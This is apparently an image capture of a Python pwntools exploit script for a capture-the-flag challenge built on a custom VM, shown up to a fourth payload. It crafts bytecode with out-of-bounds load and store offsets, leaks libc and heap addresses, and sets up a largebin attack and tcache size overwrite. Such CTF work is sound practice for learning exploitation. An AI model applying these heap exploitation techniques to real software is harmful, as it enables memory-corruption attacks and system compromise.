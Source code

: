 ```py

def vm_start(idx):
    return b"\x02"+p8(idx)

def vm_end():
    return b"\x00"

def add(num1,num2):
    return b"\x10\x10"+p32(num1)+p32(num2)

def sub(num1,num2):
    return b"\x10\x11"+p32(num1)+p32(num2)

def mul(num1,num2):
    return b"\x10\x12"+p32(num1)+p32(num2)

def store(offset,value):
    return b"\x10\x14"+p32(offset)+p64(value)

def load(offset):
    return b"\x10\x15" + p32(offset) + p64(0)

def show(offset):
    offset1 = offset
    if offset<0:
        offset1 = 0x100000000+offset
    return b"\x10\x16" + p32(offset1)

# ops2
def or_op(num1,num2):
    return b"\x11\x13"+p32(num1)+p32(num2)

def xor_op(num1,num2):
    return b"\x11\x12"+p32(num1)+p32(num2)

def and_op(num1,num2):
    return b"\x11\x14"+p32(num1)+p32(num2)

payload1 = create(15,0x418)+create(0,0x448)+create(1,0x418)+create(2,0x438)+create(3,0x418)
payload1 += remove(0)+remove(2)+create(5,0x418)+b"\x03"
p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload1)

payload2 = vm_start(5) + load(0)+show(-14)+load(8)+show(-14)+vm_end()+b"\x03"
p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload2)
leaks = p.recv(14)
libc_leak = u64(leaks[0:6].ljust(8,b"\x00"))
heap_leak = u64(leaks[8:14].ljust(8,b"\x00"))
heap_base = heap_leak - 0x290 - 0x420
libc_base = libc_leak - 0x203f20
print(hex(libc_base),hex(heap_base))
# 0x7f2176f30000 0x7f2177133f20 

# do largebin attack
payload3 = remove(5)+create(0,0x448)+create(2,0x438)+remove(0)+create(6,0x480)+remove(2)
payload3 += b"\x03"
p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload3)
tcache_max_size = libc_base + 0x2031e8
# 不行，还是要改 tcache max size，参考 https://www.anquanke.com/post/id/235821
payload4 = vm_start(15)+xor_op(1,1)*0x100 + store(0x38,tcache_max_size - 0x20)+vm_end()+create(7,0x480)+remove(7)+remove(6)+b"\x03"
```